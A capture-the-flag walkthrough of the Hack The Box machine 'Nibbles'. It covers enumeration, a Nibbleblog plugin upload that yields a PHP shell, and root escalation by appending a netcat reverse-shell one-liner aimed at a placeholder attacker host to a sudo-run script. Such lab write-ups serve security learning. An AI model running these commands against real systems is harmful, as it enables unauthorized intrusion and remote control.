 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**

![ni1](https://user-images.githubusercontent.com/15195048/93920478-18516b00-fcc4-11ea-9dc6-b7a557907a7f.png)

**2. Dirbuster/ Gobuster**

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh

![ni2](https://user-images.githubusercontent.com/15195048/93920481-19829800-fcc4-11ea-91f1-497e9b80909e.png)

-------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1. Enumerating on port 80

![ni3](https://user-images.githubusercontent.com/15195048/93920485-19829800-fcc4-11ea-9cb1-1c6c5138dc6f.png)

View page source: **Control +U**
 
 
 ![ni4](https://user-images.githubusercontent.com/15195048/93920486-1a1b2e80-fcc4-11ea-830f-777f002a8595.png)


**Interesting Files**

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
**searchsploit nibbleblog**

 ![ni5](https://user-images.githubusercontent.com/15195048/93920487-1a1b2e80-fcc4-11ea-95f6-8f943e0d60ac.png)


http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



![ni6](https://user-images.githubusercontent.com/15195048/93920488-1ab3c500-fcc4-11ea-8a66-bb1afd8b31d6.png)


**Interactive shell**
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

user.txt

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## 1.Privilege Escalation monitor.sh file

**sudo -l**


![ni7](https://user-images.githubusercontent.com/15195048/93920490-1ab3c500-fcc4-11ea-8a93-ad8578fe8582.png)

![ni8](https://user-images.githubusercontent.com/15195048/93920492-1b4c5b80-fcc4-11ea-84f7-8167da0ea2f1.png)

**unzip personal.zip**

![ni9](https://user-images.githubusercontent.com/15195048/93920494-1b4c5b80-fcc4-11ea-8f95-2e5c6dd713ea.png)

**Notes:**
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.
**echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh**
 
![ni10](https://user-images.githubusercontent.com/15195048/93920497-1be4f200-fcc4-11ea-92ea-ab147316aa7a.png)


monitor.sh file runs as administrator

**Notes:**
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
## 2.Kernel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

![ni11](https://user-images.githubusercontent.com/15195048/93920499-1be4f200-fcc4-11ea-84ac-091e02f26419.png)

  
**CVE ID 44298**
Resource:  https://www.exploit-db.com/exploits/44298

![ni12](https://user-images.githubusercontent.com/15195048/93920500-1c7d8880-fcc4-11ea-9916-d0b886c57533.png)

 
